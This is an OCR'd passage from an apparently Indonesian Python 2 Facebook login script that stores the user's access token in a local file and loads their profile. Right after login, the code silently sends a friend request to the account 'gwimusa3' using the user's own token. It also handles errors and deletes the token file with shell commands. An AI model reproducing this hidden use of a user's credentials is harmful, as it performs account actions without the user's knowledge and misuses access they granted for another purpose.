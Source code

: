 				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])

				menu()

			except requests.exceptions.ConnectionError:

				print"\n\033[1;96m \x1b[1;91mThere is no internet connection"

				keluar()

		if 'checkpoint' in url:

			print("\n\033[1;96m \x1b[1;91mIt seems that your account has a checkpoint")

			os.system('rm -rf login.txt')

			time.sleep(1)

			keluar()

		else:

			print("\n\033[1;96m \x1b[1;91mPassword/Email is wrong")

			os.system('rm -rf login.txt')

			time.sleep(1)

			login()

def menu():

	os.system('clear')

	try:

		toket=open('login.txt','r').read()

	except IOError:

		os.system('clear')

		print"\033[1;96m \x1b[1;91mToken invalid"

		os.system('rm -rf login.txt')

		time.sleep(1)

		login()

	try:

		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)

		a = json.loads(otw.text)

		nama = a['name']

		id = a['id']

	except KeyError:

		os.system('clear')
